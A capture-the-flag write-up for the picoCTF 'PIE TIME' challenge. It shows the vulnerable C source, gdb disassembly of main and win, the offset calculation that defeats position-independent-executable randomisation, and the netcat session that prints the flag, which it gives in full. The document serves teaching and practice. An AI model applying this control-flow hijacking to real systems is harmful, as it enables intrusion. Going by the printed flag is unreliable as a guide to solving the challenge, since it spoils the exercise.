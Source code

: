 # PIE TIME

## Description

Can you try to get the flag? Beware we have PIE!

So, here we given two things
The program's source code can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/fe4ce0914c5cf0111ebaf652993fb92a44ea9a7d1529b1bcd8d58827c17ca43b/vuln.c). The binary can be downloaded [here](https://challenge-files.picoctf.net/c_rescued_float/fe4ce0914c5cf0111ebaf652993fb92a44ea9a7d1529b1bcd8d58827c17ca43b/vuln)
The source code is

```
#include <stdio.h> // Standard I/O
#include <stdlib.h> // For exit()
#include <signal.h> // For signal handling
#include <unistd.h> // For low level I/O

// This function is a custom signal handler for a segmentation fault.
// If the program tries to jump to an invalid memory address, the OS sends a SIGSEGV
// This handler intercepts that signal, prints a message, and safely exits.
void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

// This function simulates a "flag capture", common in CTFs.
// It prints "You won!" and tries to open and display the contents of flag.txt.
// If `flag.txt` is missing, it prints an error and exits.
// Otherwise, it reads and prints the file character by character until EOF (end-of-file).

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler); // Register segfault handler
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main); //Prints the address of main

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```


When we run the command on terminal 
`nc rescued-float.picoctf.net 57436`

It gives the response
```
Address of main: 0x61c26bece33d
Enter the address to jump to, ex => 0x12345:
```

Now we have to give the address as a input on the basis of the the above address.
It gives the address of main function.

The file is pie executable. PIE stands for Position Independent Executable, which means that **every time you run the file it gets loaded into a different memory address**

#### KEY IDEA

The whole point is to jump from the main function to the win function.
We have to give the address to jump when the main function is given. In the above code there are two function which are **main()** and **win()**.
So, we will find the address of main() and win() function in gbd. Now even if the address change, the difference will be the same. So, we can find the address of win function by subtracting.
##### SOLUTION

We open the vuln file in gdb to know about the address of the functions.
Command - 
```
gdb vuln
```

Now to find the address we give the command 

```
(gdb) disassembler main
```

And it gives the output

```
Dump of assembler code for function main:
   0x000000000000133d <+0>:     endbr64
   0x0000000000001341 <+4>:     push   %rbp
   0x0000000000001342 <+5>:     mov    %rsp,%rbp
   0x0000000000001345 <+8>:     sub    $0x20,%rsp
   0x0000000000001349 <+12>:    mov    %fs:0x28,%rax
   0x0000000000001352 <+21>:    mov    %rax,-0x8(%rbp)
   0x0000000000001356 <+25>:    xor    %eax,%eax
   0x0000000000001358 <+27>:    lea    -0xd6(%rip),%rsi<segfault_handler>
   0x000000000000135f <+34>:    mov    $0xb,%edi
   0x0000000000001364 <+39>:    call   0x1150 <signal@plt>
   0x0000000000001369 <+44>:    mov    0x2ca0(%rip),%0x4010<stdout@@GLIBC_2.2.5>
   0x0000000000001370 <+51>:    mov    $0x0,%ecx
   0x0000000000001375 <+56>:    mov    $0x2,%edx
   0x000000000000137a <+61>:    mov    $0x0,%esi
   0x000000000000137f <+66>:    mov    %rax,%rdi
   0x0000000000001382 <+69>:    call   0x1160 <setvbuf@plt>
   0x0000000000001387 <+74>:    lea    -0x51(%rip),%rsi        # 0x133d <main>
   0x000000000000138e <+81>:    lea    0xcbf(%rip),%rdi        # 0x2054
   0x0000000000001395 <+88>:    mov    $0x0,%eax
   0x000000000000139a <+93>:    call   0x1130 <printf@plt>
   0x000000000000139f <+98>:    lea    0xcca(%rip),%rdi        # 0x2070
   0x00000000000013a6 <+105>:   mov    $0x0,%eax
   0x00000000000013ab <+110>:   call   0x1130 <printf@plt>
   0x00000000000013b0 <+115>:   lea    -0x18(%rbp),%rax
   0x00000000000013b4 <+119>:   mov    %rax,%rsi
   0x00000000000013b7 <+122>:   lea    0xce0(%rip),%rdi        # 0x209e
   0x00000000000013be <+129>:   mov    $0x0,%eax
   0x00000000000013c3 <+134>:   call   0x1180 <__isoc99_scanf@plt>
   0x00000000000013c8 <+139>:   mov    -0x18(%rbp),%rax
   0x00000000000013cc <+143>:   mov    %rax,%rsi
   0x00000000000013cf <+146>:   lea    0xccc(%rip),%rdi        # 0x20a2
   0x00000000000013d6 <+153>:   mov    $0x0,%eax
   0x00000000000013db <+158>:   call   0x1130 <printf@plt>
   0x00000000000013e0 <+163>:   mov    -0x18(%rbp),%rax
   0x00000000000013e4 <+167>:   mov    %rax,-0x10(%rbp)
   0x00000000000013e8 <+171>:   mov    -0x10(%rbp),%rax
   0x00000000000013ec <+175>:   call   *%rax
   0x00000000000013ee <+177>:   mov    $0x0,%eax
   0x00000000000013f3 <+182>:   mov    -0x8(%rbp),%rdx
   0x00000000000013f7 <+186>:   xor    %fs:0x28,%rdx
   0x0000000000001400 <+195>:   je     0x1407 <main+202>
   0x0000000000001402 <+197>:   call   0x1120 <__stack_chk_fail@plt>
   0x0000000000001407 <+202>:   leave
   0x0000000000001408 <+203>:   ret
End of assembler dump.
```


So, using gdb we find the address of main
0x000000000000133d

And now we find the address of win function

```
(gdb) disassemble win
```

And it will give the output

```
Dump of assembler code for function win:
   0x00000000000012a7 <+0>:     endbr64
   0x00000000000012ab <+4>:     push   %rbp
   0x00000000000012ac <+5>:     mov    %rsp,%rbp
   0x00000000000012af <+8>:     sub    $0x10,%rsp
   0x00000000000012b3 <+12>:    lea    0xd74(%rip),%rdi        # 0x202e
   0x00000000000012ba <+19>:    call   0x1100 <puts@plt>
   0x00000000000012bf <+24>:    lea    0xd71(%rip),%rsi        # 0x2037
   0x00000000000012c6 <+31>:    lea    0xd6c(%rip),%rdi        # 0x2039
   0x00000000000012cd <+38>:    call   0x1170 <fopen@plt>
   0x00000000000012d2 <+43>:    mov    %rax,-0x8(%rbp)
   0x00000000000012d6 <+47>:    cmpq   $0x0,-0x8(%rbp)
   0x00000000000012db <+52>:    jne    0x12f3 <win+76>
   0x00000000000012dd <+54>:    lea    0xd5e(%rip),%rdi        # 0x2042
   0x00000000000012e4 <+61>:    call   0x1100 <puts@plt>
   0x00000000000012e9 <+66>:    mov    $0x0,%edi
   0x00000000000012ee <+71>:    call   0x1190 <exit@plt>
   0x00000000000012f3 <+76>:    mov    -0x8(%rbp),%rax
   0x00000000000012f7 <+80>:    mov    %rax,%rdi
   0x00000000000012fa <+83>:    call   0x1140 <fgetc@plt>
   0x00000000000012ff <+88>:    mov    %al,-0x9(%rbp)
   0x0000000000001302 <+91>:    jmp    0x131e <win+119>
   0x0000000000001304 <+93>:    movsbl -0x9(%rbp),%eax
   0x0000000000001308 <+97>:    mov    %eax,%edi
   0x000000000000130a <+99>:    call   0x10f0 <putchar@plt>
   0x000000000000130f <+104>:   mov    -0x8(%rbp),%rax
   0x0000000000001313 <+108>:   mov    %rax,%rdi
   0x0000000000001316 <+111>:   call   0x1140 <fgetc@plt>
   0x000000000000131b <+116>:   mov    %al,-0x9(%rbp)
   0x000000000000131e <+119>:   cmpb   $0xff,-0x9(%rbp)
   0x0000000000001322 <+123>:   jne    0x1304 <win+93>
   0x0000000000001324 <+125>:   mov    $0xa,%edi
   0x0000000000001329 <+130>:   call   0x10f0 <putchar@plt>
   0x000000000000132e <+135>:   mov    -0x8(%rbp),%rax
   0x0000000000001332 <+139>:   mov    %rax,%rdi
   0x0000000000001335 <+142>:   call   0x1110 <fclose@plt>
   0x000000000000133a <+147>:   nop
   0x000000000000133b <+148>:   leave
   0x000000000000133c <+149>:   ret
```

And the address of win function is
0x00000000000012a7

So using the hex calculation 
the difference of 133d-12a7 = 96

Now we run the netcat command

```
nc rescued-float.picoctf.net 57436
Address of main: 0x57f7e26ac33d
Enter the address to jump to, ex => 0x12345: 0x57F7E26AC2A7
Your input: 57f7e26ac2a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}
```

The address of main is 0x57f7e26ac33d

57f7e26ac33d - 96 = 57F7E26AC2A7

So we will give the input 0x57F7E26AC2A7
And will get the flag.

### FLAG  = picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}
